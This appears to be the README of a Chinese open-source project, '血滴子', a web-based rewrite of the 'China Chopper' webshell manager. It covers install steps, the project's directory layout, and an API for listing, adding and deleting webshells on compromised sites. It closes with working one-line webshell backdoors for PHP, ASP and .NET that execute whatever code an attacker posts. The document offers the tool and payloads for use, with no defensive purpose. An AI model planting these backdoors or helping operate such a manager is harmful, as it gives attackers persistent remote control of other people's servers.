 ﻿> 项目介绍

为了更方便的而又跨平台的使用“中国菜刀”，我们创建了这个项目。该项目是Web版的"中国菜刀",我们暂时取名叫“血滴子”。欢迎感兴趣的朋友一起交流学习。

> 开发成员及负责方面

MXi4oyu(Python后端，用于处理“管理器对shell的核心操作”)。Email：798033502@qq.com

Black-Hole（JavaScrip前端，用于处理“管理器”在浏览器下的显示）。Email：158blackhole@gmail.com

> 安装方法

1. `pip install beaker`
2. `pip install pymysql`
3. `pip install sqlalchemy`
4. `pip install bottle_sqlalchemy`
5. `pip install jinja2`

> 项目的目录结构

```
www 根目录
├─App               应用目录
│  ├─Common             公共函数库
│  ├─Conf               配置目录
│  ├─Controller         控制器目录
│  ├─Model              模型目录
│  ├─View               视图目录
├─Core              核心目录
├─Public            静态资源目录
│  ├─js                 javascript文件目录branch
│  │  ├─branch          自定义javascript文件
│  │  ├─library         第三方javascript插件
│  ├─css                css文件目录
│  │  ├─branch          自定义css文件
│  │  ├─library         第三方css插件
│  ├─less               css引擎less文件目录
│  │  ├─branch          自定义less文件
│  ├─fonts              字体目录
│  ├─image              图像目录
├─index.py          入口文件
├─ip.txt            记录ip地址
├─passwd.py         生成密码
└─guillotines.sql   数据库文件
```

> API接口说明

#### 获取webshell总数
```javascript
地址:   /RootApi/webshell/total
方式:   GET
参数:   无
类型:   Number
示例:
512
```

#### 获取webshell列表
```javascript
地址:   /RootApi/webshell/list/<page:int>
#每页显示10条记录
方式:   POST
参数:   无
类型:   Json
示例:
{
	"type":"success",
	"info":[
		{
			"id":"1",
			"url":"http://github.com/1.php",
			"category":"PHP",
			"time":"2016-8-31 22:58:28"
		},
		{
			"id":"2",
			"url":"http://google.com/x.php",
			"category":"PHP",
			"time":"2016-8-31 22:59:02"
		}
	]
}
```

#### 添加单个webshell
```javascript
地址:   /RootApi/webshell/add
方式:   POST
参数:
{
	url:'url地址',
	password:'webshell的密码',
	category:'PHP'
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 删除单个webshell
```javascript
地址:   /RootApi/webshell/del
方式:   POST
参数:
{
	url:'url地址',
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 注意事项
只有当API的类型为`Json`格式时才会有错误信息，而且所有的`错误信息`都按照以下格式。
```javascript
{
	"type":"error",
	"info":"错误信息"
}


####血滴子一句话
PHP: <?php @eval($_POST['pass']);?>
ASP: <%eval request("pass")%>
.NET: <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
